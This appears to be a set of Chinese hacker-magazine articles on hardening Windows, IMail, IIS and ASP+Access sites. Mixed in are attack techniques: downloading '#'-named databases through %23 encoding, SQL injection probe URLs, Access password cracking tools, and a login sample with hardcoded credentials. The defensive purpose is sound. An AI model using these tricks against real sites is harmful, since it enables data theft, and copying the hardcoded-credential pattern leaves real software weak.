| 操作步骤 | 1. 取消浏览器中“自动完成”功能。在“控制面板”的“Internet 选项”的“内容”页，选择“自动完成”项，取消“表单”和“表单上的用户名和密码”部分，并清除下面的历史记录。<br>2. 同上，在“Internet 选项”的“高级”页，选择“不将加密的页面存入硬盘”以及“关闭浏览器时清空 Internet 文件夹”。<br>3. 在对应的目录中经常性地清除如历史记录、Cookie 记录等（如在类似 `C:\Documents and Settings\Administrator\Cookies` 的目录下清除 Cookie 文件）。 |
| 备注 |  |

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-020 |
| 项目名称 | Outlook Express 安全 |
| 项目描述 | 防止恶意程序对系统调用导致的危害。 |
| 操作步骤 | 1. 使恶意调用脚本文件的病毒（如蠕虫）不能发信，可在“开始”的“运行”中执行 `regsvr32 /u msoc.dll` 命令（在最近的微软更新中已经无效）。<br>2. 防止病毒调用运行 `.vbs`、`.js` 等脚本文件，如上，在“运行”中分别运行以下两个命令：`regsvr32 /u wshom.ocx` 和 `regsvr32 /u wshext.dll`。 |
| 备注 | 恢复操作时把“/u”部分去除。 |

### 后记

即使建立了安全的“堡垒主机”工作环境，如果没有完善的管理策略，一个微小的失误就会把一切安全准备完全破坏。对人们来说，系统安全只是整体安全的一部分，操作系统可以做到的加固程度并不能排除一切安全风险。我们常说“三分技术，七分管理”，系统中起主要作用的还是“人”的要素，仅仅拥有一个坚固的系统并不足够安全，只有遵守全部的安全策略，并有足够的经验知识积累，才可以渐进地达到安全的境界。如果你有更高的安全需求，还是求助于专业的安全工作者吧，或者参加一些深层次的安全培训，了解更多的事实与真相。记住：“真相使你自由”！

> 本文更多地用于强调安全性的应用服务环境，个人计算机用户也可以借鉴其中的内容。你至少应该已具有初步管理 Windows 2000 的知识和能力（例如添加和删除用户、设置用户密码、修改注册表、给系统分区等）；有关具体设置请你对照文中的说明选择采用。

## IMAIL 漏洞防御

脚本小子：攻防刊登了《被人遗忘的漏洞》，详细给我们演示了如何利用 IMail 的漏洞取得 System 权限的过程。由于使用 IMail 作为邮件服务器的用户群极其庞大，所以尽管这个 IMail 漏洞不算新，但是其带来的安全危害是极其巨大的。由于 IMail 不是免费的邮件服务器软件，这就使得有一些用户由于资金的原因无法升级 IMail 系统，或者不愿意升级、打补丁，那么我们又该如何防御这个 IMail 漏洞带来的潜在安全风险呢？请看——

- 难度等级：中级
- 前置知识：Windows 2000 的 IPSEC 使用经验，软件防火墙使用经验

Ipswitch IMail 是基于 Web 的邮件服务程序，包含 LDAP 支持 IMAIL 的目录访问。当攻击者使用简单认证模式来通过服务器验证时，需要提供“bind DN”和密码，如果提供超长的参数给“bind DN”并发送的情况下，可导致服务器出现缓冲溢出，存在以 SYSTEM 权限执行任意代码的可能。

我们已经在本期攻防的《被人遗忘的漏洞》详细叙述了该漏洞的利用方法，现在讲述如何防御这个 IMail 漏洞。

这个漏洞的防御其实简单，最彻底的解决方法就是升级你的 IMail 系统。如果实在不愿升级，那么临时解决的办法也是有的。办法总结起来无非就那么两条：用防火墙和使用 Windows 2000 的 IPSEC。下面我们来看看怎么实施的。

### 第一种方法

用防火墙将 8383 端口屏蔽掉。大家看攻击篇的时候应该看到了，该漏洞成功利用的关键条件是对方的 8383 端口得开放，因此我们可以利用防火墙将 8383 端口给屏蔽掉。

### 第二种方法

使用 IPSEC 将 8383 端口过滤掉。具体操作步骤如下：点击“开始→运行→gpedit.msc→计算机配置→Windows 设置→IP 安全策略，在本地”，如图 1 所示。


图 1

然后右键单击选择“创建新的 IP 安全策略”，点“下一步”，给安全策略起个名字，这里起的是“防御 IMail 攻击”，一路“下一步”，最后完成，就出现了该策略的属性编辑窗口，如图 2 所示。


单击下面的“添加”按钮，弹出安全规则向导，点击“下一步”直到出现“网络类型”时，选择“远程访问”，连续点击“下一步”，会弹出一个警告框，不管它，单击“是”继续，就会出现 IP 筛选器列表，如图 3 所示。


单击添加按钮，添加筛选器，名称为“阻止 8383 端口的访问”，单击添加，出现筛选器向导，点击“下一步”，在源地址选择“任何 IP 地址”，再点击“下一步”，目标 IP 地址选择“我的 IP 地址”，协议类型选择“任意”或者“TCP”，出现 IP 协议端口后，选择“从任意端口”，到此端口输入“8383”，完成后就回到了 IP 筛选器列表的窗口，选择关闭，回到安全规则向导的窗口。这时你会发现列表里多了一个我们刚才添加的筛选器“阻止 8383 端口的访问”，选择它，然后点击“下一步”来到“筛选器操作”选择窗口，单击添加，来到筛选器操作向导，点击“下一步”，起一个名称“拒绝 8383 端口的访问”，选择“阻止”单选钮，单击完成回到“筛选器操作选择”窗口，选择我们刚才建立的筛选器操作，然后点击“下一步”完成，回到“防御 IMail 攻击”属性窗口，选择关闭。回到组策略窗口，在右边窗口里出现了我们刚刚创建的 IP 规则，右键单击它，选择指派，我们的规则就生效了，如图 4 所示。


整个过程就算完成了，这个时候 IP 安全策略生效，并开始忠实地守护 8383 端口，任何远程连接都将被拒绝！你的 IMail 也被保住了。

此种方法比起第一种方法来麻烦了点，而且可定制的规则太少，但是不需要第三方软件来支持，选择哪个就看你的喜好了。

不过我还是觉得，最好升级一下你的 IMail，这才是彻底解决问题的根本方法。

### 编后

> 本来服务器的操作系统做了全面的安全加固，这时候看起来似乎固若金汤，其实并不然！如果在细微处不注意安全措施的话，一个不经意的疏忽，往往就会造成“千里之堤，毁于蚁穴”！

## Imail 漏洞防御之我见

### 通用系统漏洞防范漫谈

文／脚本小子


脚本小子：看了上篇《IMAIL 漏洞防御》吧？看过了的朋友可以思考一下，文章中是否有什么欠妥的地方？我，脚本小子可要发言了！现在很多在校的大学生都有这样的迷惑，漏洞攻击好做，但相关的防护就是个很大的问题，很难做。所以这次借无敌也寂寞兄弟的文章，和大家一起来看看该如何防御 Imail 漏洞。

- 难度等级：中
- 前置知识：Imail 的使用技巧，防火墙的屏蔽策略

Imail 是什么我就不用介绍了吧，在 2002 年 5 月网上公布了一个“Ipswitch IMail Server LDAP 缓冲溢出”的漏洞，当时大家对这个漏洞不是很在意，其实 Ipswitch IMail 是基于 Web 的邮件服务程序，包含 LDAP 支持 IMAIL 的目录访问，当攻击者使用简单认证模式来通过服务器验证时，需要提供“bind DN”和密码，如果提供超长的参数给“bind DN”并发送的情况下，可导致服务器出现缓冲溢出，存在以 SYSTEM 权限执行任意代码的可能！

看过防护的《IMAIL 漏洞的防御》的朋友也许会产生这样的疑问，如果我们把服务器的 8383 端口挡住了，用户如何通过 Web 方式来访问呢？所以说这种防护只能针对应急情况下才能用，仔细思考一下，其实防护这些攻击性软件我们还可以用到别的措施。

### 1．修改端口的办法

一般用户通过 8383 的端口来访问 webmail，那么我们可以修改 IMAIL 的默认端口，比如改成 1818 等等。这样至少可以减少外来的黑客攻击服务器的几率。

**Wtf 点评** 更改默认程序端口的方法在其他地方同样适用，黑防原来也介绍过很多这样的方法，它能在一定程度上减轻被攻击的可能，比如我们在利用这个漏洞的时候，很多都是直接对网络的 8383 特征端口进行扫描，找不到这个端口当然很多人就无法确定有漏洞呀！

### 2．通过配置防火墙的办法

其实《IMAIL 漏洞的防御》中配置的 IP 安全策略的大体思路是没问题的，可是他却忽略了一旦产生溢出，将反向连接让攻击者获得一个 shell，所以我们应该在安全策略里面加上一条：

- 我的 IP 地址 → 任何 IP 地址 → 禁止访问
- 任何 IP 地址 → 我的 IP 地址 → 允许访问 → 端口 8383 → TCP 协议

这样即使服务器被溢出了，那么 shell 也不会被成功执行！

**Wtf 点评** 这也是现在防止反向连接木马和溢出后 shell 获得的一个好方法，系统中很多自带的东西如果运用得当，完全是可以做到比较安全的，至于 Insect 这些东西，黑防早在去年就用大量的篇幅讲述了这个技术，相信一直在关注我们杂志的朋友对这个已经比较了解了。

### 3．通过这两种方式结合起来

那么安全性不是又加大了吗？只要修改配置好的 IP 策略的端口就可以了，还有一种方法也是“迷惑”攻击者的——自定义 webmail 界面！现在很多用户都采取自定义访问界面的方式来访问 IMAIL 的 webmail，对普通的网络攻击也是比较好的防护方法。

（下转第 30 页）

## ACCESS 数据库安全攻防

文／图 臭要饭的！

网络是没有绝对安全的！这是一句经典的名言，我也不用多说了，最近一直在研究脚本方面的问题，对这句话有很深的感触，在网络安全的攻击和防御中才突然发现：原来攻防间的对抗是这样的让人痴迷！不发感叹了，下面主要为大家演示 Access 数据库下载的攻与防。

IIS 在通过 asp.dll 处理 .asp 扩展名文件的时候，对 `<%%>` 以外的内容不做任何处理就直接输出，但是 MDB 文件中如果没有 `<%%>` 之类的 ASP 标识符，我们直接在 IE 中输入 URL 返回在 IE 中的数据，就是 MDB 文件的数据。我们直接用 FLASHGET 之类的软件下载后改名就可以使用了，这也是现在非常多人采用的防止数据库被下载的办法，算是一个误区吧（图 1）！

### 攻击手法

- 1．发挥想像力修改数据库文件名

修改数据库名，其目的就是防止我们猜到数据库而被下载，但是万一我们猜到数据库名，就直接可以下载了，所以这不能保证 100% 不能被下载。猜解数据库的常用的办法就是写程序去猜解数据库名，判断 WEB 返回的是不是 404 错误，如果提交一个 MDB 文件，没有返回 404 错误，那证明猜对了，可以直接下载。

当然，这有一定的局限性。因为如果数据库名非常复杂，会产生大量的日志，管理员可能早发现了，况且猜解的时间会变得很长。


- 2．数据库名后缀改为 ASA 和 ASP 等不一定能防止被下载

- 3．数据库名前加“#”一定能防止被下载

有些人误认为：只需要把数据库文件名前面加上 #，然后修改数据库连接文件（如 conn.asp）中的数据库地址。原理是下载的时候只能识别 # 号前面的部分，对于后面的自动去掉。这样是比较安全的，但它只是对于一般的人来说无法下载，因为他们不知道也没有去了解有关 IE 编码的技术——在编码中我们可以用 %23 来代替 # 号，例如我们有一个数据库是：

```text
http://www.xxx.com/data/#datapro.mdb
直接在 IE 中输入：
http://www.xxx.com/data/%23datapro.mdb
```

同样能够下载，如图 2 所示。


图 2

### 4．加密数据库下载后可轻易被解出数据库密码

同时还有一部分人认为：把 ACCESS 数据库进行加密，就算对方得到数据库也没有办法得到里面的任何信息。这种理解大错特错，Access 数据库的加密机制非常脆弱，加密后数据库系统通过将用户输入的密码与某一固定密钥进行“异或”来形成一个加密串，并将其存储在 *.mdb 文件从地址“&H42”开始的区域内，用程序可以轻松地写出破解器代码。这里我为大家推荐一款比较老，但非常实用的破解数据库密码程序 accesskey.exe（光盘中有提供），如图 3 所示。

### 5．特殊请求让脚本解析出错可得到数据库路径


图 3

在网络上有很多人直接采用以下代码，来连接数据库：

```vb
DB_Path = "Data/ABCD1234!@#1ipo.mdb"
DB_String = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(DB_Path)
Set Conn = Server.CreateObject("ADODB.Connection")
Conn.Open DB_String
```

数据库文件名也够复杂了，用程序破解我想是没有人想去尝试的。像这样的连接方式我们可以直接取得它的数据库路径，但是方法危险性太大，暂且不公布。这里只为大家提供临时补丁，在 `Conn.Open DB_String` 上面加上一句话：`ON ERROR RESUME NEXT`，就 OK 了。

## 防范措施

上面我们介绍了怎么去下载数据库，下面再为大家讲解一些防止数据库被下载的方法。

### 1．针对虚拟主机

首先在 MDB 文件中建一个表，假设表中一字段名为 NotDownLoad，在表名建一个字段，字段中填入：`<%= 'a' - 1 %>`，如图 4 所示。

再把数据库扩展名改为“.asp”。为什么要取名为 `<%= 'a' - 1 %>` 呢？其实 `'a' - 1` 这里你可以随意输入，只要不是正确的 ASP 语句就行。因为这样把

图4

扩展名改成“.asp”后，在 IE 中输入时，遇到了 `<%%>` 它就会去解释之间的代码。呵呵，结果会提示出错，所以数据库绝对不会被正确地下载（图5）。

图5

此时的你是不是认为非常安全了？NO，我们还要在数据库名前加上一个 `#` 号。如：`#Data.asp`，这里的 `#` 号并不是用来做防止下载的。防止下载的过程我们已经作了解释，当你有多个 MDB 文件，并放在同一个目录下，如 12yes 的整站系统，如果我们猜到管理员 MDB 文件的位置，并且从另一个系统中得到 SQL 注入漏洞的同时，可以采用 Access 跨库查询的方法来取得管理员库中的记录。如果我们在库名前面加上 `#` 号的时候，就算你猜测到了我们也不怕，提交 `select * from d:\web\data\#data.asp.admin` 类似的 SQL 查询语句，系统会提示出错，因为 `#` 在 SQL 语法中有表示日期的作用。语法出错自然也就不会去执行查询条件了。

我们认为比较安全的数据库就应该是 `#文件名.asp`，并且建一个临时表，表中有一字段输入 ASP 代码，防止 ASP 被正确地解释。

### 2．针对托管主机

这种防下载的方法就太好办了。把你的数据库放到 IIS 以外的目录，那不管是谁都不能够再下载了。如你的 Web 目录在 `D:\Web\WebSite` 目录下，把数据库保存在 `D:\Web\Data` 目录下就一切 OK 了。

通过上面的防护策略，现在你的数据库已经是比较安全了。现在的漏洞都已经堵上了，当然，不要认为这样就高枕无忧了，如果某天你发现黑防上又公布了这方面很大的漏洞，那请小心！说不定又能被下载数据库了！

## 基于 ASP.NET 与 Access 的安全防护

脚本小子：随着 Internet 的发展，Web 技术进步也日新月异，人们对网络安全也越来越关心，安全问题已成为人们每天必谈的话题之一（稍微夸张一下）。今天我们来谈一下 IIS+ASP+ACCESS 的安全问题，IIS+ASP+ACCESS 是微软推出的作为一种典型的服务器端网页设计技术的解决方案，被广泛应用在互联网的各个领域中，同时也是被攻击的对象……

文／Nspiner

目前，ASP（Active Server Pages）技术已风靡全球，它给开发商提供了基于脚本的直观、快速、高效的应用开发手段，被大大提高了开发的效果。应用这种技术，不需要进行复杂的编程，就可以开发出专业的动态 Web 网站。Access 数据库作为微软推出的以标准 JET 为引擎的桌面型数据库系统，由于具有操作简单、界面友好等特点，具有较大的用户群体。目前，IIS+ASP+Access 是中小型 Internet 网站的首选方案。不过，该解决方案在为我们带来便捷的同时，也带来了严峻的安全问题。

## IIS+ASP+Access 安全隐患分析

IIS+ASP+Access 解决方案的主要安全隐患来自 Access 数据库的安全性，其次在于 ASP 网页设计过程中的安全意识和措施。

### 1. 数据库被下载

数据库被下载是我们经常谈的问题，在 IIS+ASP+Access 网站中，如果有人通过各种方法获得或者猜到数据库的存储路径和文件名，则该数据库就可以被下载到本地。例如：对于存储路径一般为“URL/database”或放在根目录“URL/”下的数据库，任何人敲入地址：“URL/database/数据库名.mdb”，数据库就可以被下载。

### 2. 数据库被解密

由于 Access 数据库的加密机制比较简单，即使设置了密码，解密也很容易。该数据库系统通过将用户输入的密码与某一固定密钥进行“异或”来形成一个加密串，并将其存储在 `*.mdb` 文件从地址 “&H42” 开始的区域内。我们可以轻松地编制解密程序，一个几十行的小程序就可以轻松地获得任何 Access 数据库的密码。因此，只要数据库被下载，其信息就没有任何安全性可言了。

### 3. ASP 页面的安全性

- （1）源代码安全性隐患。由于 ASP 程序采用非编译性语言，大大降低了程序源代码的安全性。如果黑客想侵入站点，获得 ASP 源代码是非常重要的。虽然源代码可以加密，但大部分都是通过 MS Script Encode 加密的。应用开发商通过使用这个工具，达到 Web 主机和 Web 客户不能查看或修改它们源代码的目的。在这里提供一个解密软件 `ZWDECODE.EXE`，使用这个工具可以对经过 MS Script Encode 加密的 ASP 文件进行解密，把源代码还原。

例如：可以把类似于如下的代码：

```html
<SCRIPT language=JScript.Encode>
#@~^QwIAAA==@#@&0...mDkW
P7nDb0ZKD...nYAMGhk+Dvb!@#@&P,
kW!U:C7kLDGDc!22g!n~'!P3:dYMc*INz&R
@*+!@...
</SCRIPT>
```

还原成

```html
<SCRIPT language=JScript>
function verifyCorrectBrowser(){
    if(navigator.appName == "Microsoft Internet Explorer")
        if (navigator.appVersion.indexOf("5.") >= 0)
            return(true);
        else
            return(false);
}

function getAppropriatePage(){
    var str1 = "Had this been an actual Web site, a page compatible with ";
    var str2 = "browsers other than ";
    var str3 = "Microsoft Internet Explorer 5.0";
    var str4 = "would have been loaded.";
    if (verifyCorrectBrowser())
        document.write(str1 + str3 + str4);
    else
        document.write(str1 + str2 + str3 + str4);
}
</SCRIPT>
```

`ZWDECODE.EXE` 是一个运行在 DOS PROMPT 的命令工具，该程序的语法解释如下：

`ZWDECODE inputfile outputfile`

- `inputfile`：要被解密的文件名称，包括相对于当前目录的任何需要的路径信息。
- `outputfile`：要生成的输出文件的名称，包括相对于当前目录的任何需要的路径信息。

本程序只能用于恢复自己丢失源代码的程序，不可用于其它用途。为了安全起见，在解密前要做好备份。否则……自己看着办，呵呵。

- （2）程序设计中容易被忽视的安全性问题。其实这个问题就是我们经常说的 SQL Injection。ASP 代码使用表单实现交互，而相应的内容会反映在浏览器的地址栏中，如果不采取适当的安全措施，只要记下这些内容，就可以绕过验证而直接进入某一页面。

例如在浏览器中输入：

- `http://ip/abc.asp?id=1 and 1=1` 返回某个具体问题；
- `http://ip/abc.asp?id=-1 and 1=2` 返回 500 内部服务器出错；
- `http://ip/abc.asp?id=1` 一样返回 500 出错。

利用这个 SQL Injection 漏洞，我们很快就可以知道服务器用的是什么数据库等信息。因此，在验证或注册页面中，必须采取特殊措施来避免此类问题的产生。

## 提高 IIS+ASP+Access 网站安全性的方法

### 1．防止数据库被下载

由于 Access 数据库加密机制过于简单，有效地防止数据库被下载，就成了提高 ASP+Access 解决方案安全性的重中之重。以下两种方法简单、有效。

- **非常规命名法。** 为 Access 数据库文件起一个复杂的非常规名字，并把它放在几个目录下。这样黑客想通过猜的方式得到 Access 数据库文件名就很难了。
- **使用 ODBC 数据源。** 在 ASP 程序设计中，如果有条件，应尽量使用 ODBC 数据源，不要把数据库名写在程序中。否则，数据库名将随 ASP 源代码的失密而一同失密。

例如：

```asp
DBPath = Server.MapPath("../akkt/kj61/acd/av5/faqpj.mdb")
conn.open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath
```

可见，即使数据库名字起得再怪异，隐藏的目录再深，ASP 源代码失密后，也很容易被下载下来。如果使用 ODBC 数据源，就不会存在这样的问题：

`conn.open "ODBC-DSN名"`。

### 2. 对 ASP 页面进行加密

为有效地防止 ASP 源代码泄露，可以对 ASP 页面进行加密。我们曾采用两种方法对 ASP 页面进行加密：一是使用组件技术将编程逻辑封装入 DLL 之中；二是使用微软的 Script Encoder 对 ASP 页面进行加密。使用组件技术存在的主要问题是每段代码均需组件化，操作比较繁琐，工作量较大，而使用 Encoder 对 ASP 页面进行加密，操作简单、收效良好。Script Encoder 的运行程序是 `SCRENC.EXE`，使用方法是：

```text
SCRENC [/s] [/f] [/xl] [/l defLanguage] [/e defExtension] inputfile outputfile
```

- `/s` 是屏蔽屏幕输出；
- `/f` 指定输出文件是否覆盖同名输入文件；
- `/xl` 指是否在 `.asp` 文件的顶部添加 `@Language` 指令；
- `/l defLanguage` 指定缺省的脚本语言；
- `/e defExtension` 指定待加密文件的扩展名。

### 3. 使用 Security Wizard 设置 Access 数据库的安全性

可以使用 Security Wizard 设置数据库的安全性。为此，请执行以下步骤：

- 设置安全性的数据库。
- “工具”菜单中，指向“安全”，然后单击“设置安全机制向导”。将显示“设置安全机制向导”对话框。因为我们要创建一个新的工作组信息文件，因此请确保选中此选项，然后单击“下一步”。在“设置安全机制向导”对话框的第二个屏幕中，为工作组信息文件键入一个新名称，或者接受默认名称。键入一个工作组 ID（WID）。WID 唯一标识了此工作组文件的 Admins 组。下一步，在相应的文本框中键入您的姓名和单位。虽然这些输入是可选的，但最好还是填入，因为只有知道这些信息的人才能重新创建工作组信息文件。
- 您也可以选择是否使用此工作组信息文件作为所有数据库的默认文件，或者只是用于这个特定的数据库。单击“创建快捷方式”，打开设置了安全机制的数据库选项，然后单击“下一步”。
- 在下一个屏幕中，可以选择希望向导设置其安全机制的对象。默认情况下，向导将为所有现有对象和所有新创建的对象设置安全机制。单击“下一步”。
- 在下一个屏幕中，您可以选择可选的具有特定权限的安全组。我们强烈建议您使用组来管理用户的访问权限，而不是赋予每个用户特定的权限。选择任何其他组账户，然后单击“下一步”。在此屏幕中，您可以为 Users 组设置特定的权限。因为所有用户都自动成为 Users 组的成员，在此选择的任何权限都会应用于所有用户，所以最好限制该组的权限，或者保留默认设置——没有任何权限。单击“下一步”。
- 在下一个屏幕中，您可以向工作组信息文件中添加用户。还可以为每个用户选择密码和个人 ID（PID）。Access 使用 PID 和账户名为工作组标识唯一的用户。添加用户并单击“下一步”。

> **注意：** 个人标识符（PID）不是密码。它被加密并与名称一起创建了一个唯一的系统标识符（SID），用于标识用户。

在此屏幕中，您可以向工作组信息文件中的组添加用户。进行您的选择后单击“下一步”。

- 在最后一个屏幕中，为不具有安全设置的数据库的备份选择一个名称。保护好此原始数据库的备份是很有必要的，以防万一丢失或损坏了具有安全设置的数据库。单击“完成”。原始数据库将用 `.bak` 扩展名保存。

> **注意：** 当创建工作组信息文件后，Security Wizard 将创建一个报表，其中包含重新创建工作组信息文件所需的所有信息。您必须保存好这些信息，以便在原始文件丢失或损坏时重新建立文件。

（8）单击“完成”后，Security Wizard 将加密数据库，然后要求您使用新的工作组信息文件重新打开并进行了安全设置的数据库。

### 4. 使用安全验证的方法，也是目前最流行的方法

.NET 平台及其 ASP+ 所提供的强大开发功能是每个程序员所不能忽视的，对某种语言的偏好不该影响选择最具效率的开发工具。ASP+ 提供了 3 种主要的身份验证方式，即 Windows、Cookie 和 Passport。Windows 是指使用 Windows 自身的安全管理方式，你可通过设置 Windows 的用户及 IIS 等权限来保障安全，对于一些大应用，使用此方法将非常复杂和烦琐。Passport 方式较为方便和安全，用户用一个用户名和密码可以访问任何成员站，并且在注销离开时，所有 Passport 相关的信息都会清除，你可以在公共场所放心地使用它，相信 Passport 比较适合 Internet 的应用。在企业级应用中，使用 Cookie 方式和 SSL、IP 限制等一些网管技术同样可以实现一定的安全性。

我们先来介绍比较简单的一种，为防止未经注册的用户绕过注册界面直接进入应用系统，我们采用 Session 对象进行注册验证。例如，我们制作了下面的注册页面。设计要求注册成功后系统启动 `hrmis.asp?page=1` 页面。假设不采用 Session 对象进行注册验证，则用户在浏览器中敲入“URL/hrmis.asp?page=1”即可绕过注册界面，直接进入系统。

在此，利用 Session 对象进行注册验证：

```asp
<%
UserID = Request("UserID")    '读取使用者所输入的账号和密码
Password = Request("Password")
If UserID <> "hrmis" Or Password <> "password" Then
Response.Write "账号错误！"    '检查 UserID 及 Password 是否正确若错误则提示
Response.End
End If
Session("Passed") = True    '将 Session 对象设置为通过验证状态
%>
进入应用程序后，首先进行验证：
<%
If Not Session("Passed") Then
    Response.Redirect "Login.asp"    '如果未通过验证，返回 Login 状态
End If
%>
```

懂 ASP 编程的就会知道用这一小段代码就可以防止未经注册的用户绕过注册界面直接进入应用系统。

我们再来介绍另一种基于 Cookie 的方法。你需建立一个如下内容的 config.web，并将它放在 `C:\inetpub\wwwroot`（IIS 缺省目录）下；对于系统安装时已经建立的 config.web，一般在 `WINNT\Microsoft.NETFramework\...` 目录下。

```xml
<configuration>
  <security>
    <authentication mode="Cookie">
      <cookie decryptionkey="autogenerate"
              loginurl="/login.aspx" cookie=".ASPXAUTH" />
    </authentication>
    <authorization>
      <deny users="?" />
    </authorization>
  </security>
</configuration>
```

该配置文件声明用 Cookie 方式验证，在你访问该目录及其子目录下的 aspx 文件时，如果你没有认证的 Cookie，它就会重定向到 `login.aspx`。如果你需要一个不需要身份认证的目录（可放用户申请的程序），则可建立一个如下的 config.web 并放在该目录下：

```xml
<configuration>
  <security>
    <authorization>
      <allow users="*" />
    </authorization>
  </security>
</configuration>
```

## 程序设计

你需在 root 目录下建立 `Default.aspx` 和 `login.aspx` 这两个 ASP+ 程序。

`login.aspx` 程序内容代码详见本期光盘杂志相关栏目中的“login.txt”。

具体执行时，当一个未经认证的用户浏览你的网站的 `.aspx` 文件时（注意：Cookie 认证只对 `.aspx` 文件起作用），系统发现该用户没 Cookie，于是将它重定向到 `login.aspx`，当用户输入正确的用户名和密码后，系统为该用户生成一个 Cookie 并立刻自动重定向到一开始该用户要浏览的 `.aspx` 文件并执行它，缺省的则定向到 `Default.aspx`，上面提供的 `Default.aspx` 则提示你已经通过身份认证。由于使用了 Session 跟踪应用程序访问或会话期间特定的 Web 浏览器信息，带有相应的 Cookie 的 HTTP 请求被认为是来自同一 Web 浏览器，所以要防止被人使用 Sniffer 等方法非法截获 Cookie 信息，你需要考虑使用 SSL 或其他安全的通讯链路加密方法。使用 Cookie 的身份验证方法再结合各种加密手段以及操作系统完善的安全配置，就可以为大多数需要安全认证的应用提供足够的支持。

> ### 编后语
> 通过上面的介绍，大家对 ASP+Access 网站安全和隐患已有一定的了解，有矛必有盾，有攻必有防，二者是相互制约的。此文主要是提醒大家在以后的编程和系统及其他软件设置方面一定要慎之又慎，努力提高国内网站的安全系数。

（上接第22页）

**Wtf 点评：** Serv-U 溢出漏洞，原来比较老的 80 端口的溢出等漏洞，对付普通的入侵者，都可以通过修改 help 信息、banner 信息等方式返回迷惑入侵者的信息，比如 Serv-U 的 banner，修改成 Windows Ftp Server，那很多人就不会再用 Serv-U 的溢出来攻击了！

## 4．打补丁的办法

这个漏洞公布出来已经很久，所以补丁早发布了，虽然 Imail 的 Ipswitch 公司不承认这个漏洞，但是作为一个对系统负责的搞安全的人员，完全有必要自己升级 Imail 服务器！现在最新版本是 8.0 带 8.04 的补丁，如果你非用 7.x 的 Imail，你也可以看看这个补丁：

```text
ftp://ftp.ipswitch.com/Ipswitch/Product_Support/IMail/IM710HF1.exe
```

**Wtf 点评：** 很多漏洞被发现后，发现者往往出于对网络的责任心，并没有公布漏洞而是直接通知官方，所以，就算官方因为某种原因不承认这样的漏洞，但是它的下一个版本里面肯定会对这样的漏洞进行改进或者修补！所以，经常有选择性地升级你的程序是很重要的防护策略，当然，稳定性是前提！

> ### 后记
> 顺便多说几句，这两个漏洞中 GET 溢出可以攻击 Imail 7.11 以及所有 8.1 版本，LDAP 溢出的可以攻击 7.11 以及 5.0 的所有版本，但《IMAIL 漏洞的防御》中没有给大家点到，估计是作者的疏忽。
>
> Ipswitch IMail Web Messaging HTTP Get 缓冲溢出漏洞的补丁见下：
>
> http://online.securityfocus.com/archive/1/attachment/284486/3/impatch.zip
>
> Imail 是一个用得很广泛的工具，所以漏洞大家都看得比较清楚，这两个都是比较老的漏洞了，在网上听说还流传着 iMAIL 高版本的 DoS 工具！汗！希望大家还是以补为主，尽快地把存在的漏洞都灭掉，黑防也会一直关注这些问题，哦哦口号，一、二、三：漏洞漏洞看过来，防护防护看过来，这里，就是你的安全港湾——《黑客防线》！

## IIS Lockdown + URLScan

### 保障 IIS 安全

蝴蝶：Web 服务器的安全一直是人们关注的问题，从早期的 UNICODE 到近期国内流行的 SQL 注入，Web 的攻防一直是安全界的一道风景线，这里我们介绍两种针对 IIS 来进行防御的工具，让一切变得更简单！……

作为一种很流行的服务器，在过去几年里，微软的 IIS 已经成为了攻击者经常选择的目标。它一直为像 $DATA 这样的泄露源代码漏洞，例程 showcode.asp 暴露信息漏洞，以及很多的缓冲区溢出漏洞所困扰。像红色代码和 NIMDA 这样对 Internet 危害很大的病毒就是利用了 IIS 的漏洞。这些漏洞也让人们，当然还有微软自己，意识到了 Web 服务器特别是 IIS 的安全，因此微软发布了两个工具（IIS Lockdown 和 URLScan）来解决 IIS 6.0、IIS 5.0 以及早先版本中与安全相关的配置问题。

IIS Lockdown 提供了一个中央的 GUI 界面来让用户可以解除某些可能会对服务器和服务器应用程序造成安全威胁的目录、方法以及服务的映射。下面我们介绍一些这个工具提供给用户的初级配置策略。

初级用户可以考虑采用 IIS Lockdown 提供的许多默认模板中的一个来对服务器进行加固。这其中包括小型业务服务器 2000、Exchange 服务器、FrontPage 服务器扩展、动态 Web 服务器和静态 Web 服务器。基于选定的模板，IIS Lockdown 会自动选择保留合适的 ISAPI 并进行映射。注意的一点是，IIS Lockdown 只是移除这些 ISAPI 扩展的映射，它不会删除或者注销这些 DLL。因此，只需要在 Web 服务器上重新运行 IIS Lockdown，就可以将服务器的配置还原为初始状态。IIS 6.0 在安装的时候并不会包括那些多余的扩展，除非你重新对其进行配置，否则它只支持静态页面。

### IIS Lockdown

大多数 Web 服务器的默认安装并不能满足所有管理员对于安全的需求。Microsoft 的 IIS（特别是 5.0 和 5.0 以前的版本）也不例外。默认情况下的安装中包含了一些作为例程的脚本，最小的文件系统许可安全性，以及不少多余的文件句柄。厂商采用这种默认安装策略的出发点在于为管理员提供更大的灵活性，来帮助他们根据自身机构的业务特点进行自定义的安全配置。IIS 的管理员可以通过对服务器进行手工配置或者使用 Microsoft 的 IIS Lockdown 工具来完成默认安装后的系统安全加固工作。

IIS Lockdown 提供了一个中央的 GUI 界面，让用户可以解除某些可能会对服务器和服务器应用程序造成安全威胁的目录、方法以及服务的映射。

对系统熟悉的用户可以选择手工配置这些 IIS Lockdown 提供的安全设置。这些配置包括：

- 1. 关闭不需要的服务

IIS 允许 3 种基本的服务：Web 服务、FTP 服务和 SMTP 服务。IIS Lockdown 提供了一个选项来关闭／删除这些服务中不需要的某个或者某些。这点对于保证服务器的安全是很重要的，如果管理员忘记了给某个服务打补丁，并且该服务并不是必须的话，那么这就会给攻击者提供可乘之机。

- 2. 取消不用的文件句柄的映射

不同的 ISAPI DLLs 中的功能可以通过使用恰当的扩展名向 IIS 请求文件来调用。具体来说，IIS 5.0 以及以前版本的 IIS 包含了大量的一般用户也许根本没机会用到的 DLL。默认情况下这些扩展映射包括有 .htw、.ida、.idq、.asp、.cer、.cdx、.asa、.htr、.idc、.shtm、.shtml、.stm 和 .printer。而这其中最常用到的是 .asp（作为服务器端用来产生动态 HTML 的脚本）、.asa（全局配置文件，一般包含了全局变量以及后台数据库的连接字符串）、.cer（用来进行 HTTPS 通讯）以及 .cdx（也是用于 HTTPS 通讯的）。其他的扩展，例如 .printer（提供 Internet 打印功能的）都很少使用。支持这些不经常用到扩展的 DLL 应当被取消映射，这样就会大大减少攻击者利用不同的恶意输入对不同的目标进行利用的几率。IIS 让用户可以通过一个相对简单的 GUI 界面来完成配置工作。

- 3. 取消作为例程的脚本以及它们所在目录的映射

